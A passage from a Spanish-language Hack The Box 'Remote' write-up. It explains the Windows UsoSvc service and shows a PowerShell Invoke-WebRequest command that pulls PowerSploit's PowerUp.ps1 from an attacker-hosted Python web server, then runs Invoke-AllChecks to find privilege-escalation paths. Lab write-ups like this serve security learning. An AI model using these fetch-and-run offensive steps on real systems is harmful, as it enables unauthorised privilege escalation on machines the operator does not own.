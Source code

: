 Pues si, buscando informacion me encontre con que **UsoSvc** basicamente funciona como administrador de actualizaciones en windows

> Este servicio es responsable de descargar, instalar y buscar actualizaciones en su computadora. [Acá la referencia](http://windowsbulletin.com/es/what-is-update-orchestrator-service/)

¿Pero de que me sirve saber esto? Bueno, hay un conjunto de herramientas (Github [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)), entre ellas una que podemos usar para validar que rutas de [escalar privilegios](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) tenemos (una ruta seria UsoSvc). Se me habia olvidado usarla antes, es **PowerUp.ps1**, usaremos una funcion que trae llamada **Invoke-AllChecks**.

> Info del mismo archivo sobre AllChecks: Runs all functions that check for various Windows privilege escalation opportunities.

Guiandome con un video de [s4vitar](https://www.youtube.com/watch?v=qEhXMZ1GYpE&t=3057) en el que explota en una maquina el mismo servicio **UsoSvc** realizaremos esto:

##### 1. Pues descargarnos PowerUp.ps1 :P
##### 2. Pasarlo a windows

~ Linux:

Levantamos un servidor web donde tengamos el archivo.

```bash
$ python -m SimpleHTTPServer
```

~ Windows:

Podriamos correr el exploit para pasarnos el **PowerUp.ps1** pero viendo el video aprendi que no era necesario, podemos hacerlo desde cmd simplemente moviendonos a la carpeta donde queremos el archivo y abriendo una sesión powershell.

```powershell
> powershell
PS > Invoke-WebRequest http://10.10.15.69:<puerto_que_levanta_python>/PowerUp.ps1 -o PowerUp.ps1 # -o de output, le ponemos el nombre de como queremos que quede el archivo
PS > Invoke-Module ./PowerUp.ps1
PS > Invoke-AllChecks | Out-File -Encoding ASCII checks.txt # Guardamos la ejecución del modulo en un archivo llamado checks.txt
```

Listo, validando el contenido de `checks.txt` tenemos:

Nuestro servicio **UsoSvc**.

![pscheckstxt1](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/remote/pscheckstxt1.png) 
